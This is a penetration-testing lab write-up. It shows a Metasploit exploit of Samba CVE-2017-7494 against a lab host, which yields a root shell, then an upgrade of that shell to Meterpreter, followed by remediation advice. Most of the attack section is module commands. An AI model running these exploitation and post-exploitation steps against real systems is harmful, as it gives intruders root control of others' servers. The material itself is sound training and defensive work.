






# Upgrading Command Shells to Meterpreter

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.151.253.3) — Unix, Samba smbd 3.x–4.x<br>
**Attacker:** 192.151.253.2 (Kali)<br>
**Objective:** Exploit the service and upgrade the command shell to a Meterpreter session.

## 1. Executive Summary

A plain command shell is limited; Meterpreter adds the full post-exploitation feature set.
We exploit **Samba** via `is_known_pipename` (CVE-2017-7494) for a root command shell, then
upgrade it to Meterpreter — first with the `shell_to_meterpreter` post module, and then with
the `sessions -u` shortcut.

## 2. Recon

```bash
db_nmap -sV 192.151.253.3
services
```

Ports 139/445 — Samba 3.x–4.x.



## 3. Exploiting Samba (is_known_pipename)

```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.151.253.3
run
```

A root command shell opens.

```
root@demo:/tmp#
```



## 4. Upgrade (shell_to_meterpreter)

Backgrounding the shell, then running the post module.

```bash
background
use post/multi/manage/shell_to_meterpreter
set SESSION 1
run
```



Now both sessions are listed.

```bash
sessions
```



## 5. Upgrade (sessions -u)

The same upgrade can be done directly from the session list.

```bash
sessions -u 1
```





## 6. Remediation Recommendations

1. **Patch Samba** (CVE-2017-7494) and disable writable shares that allow loading modules.
2. **Set `nt pipe support = no`** / restrict named-pipe access where feasible.
3. **Apply least privilege** so a service compromise doesn't immediately yield root.
4. **Monitor** for unexpected `.so` uploads to shares and anomalous `smbd` child processes.
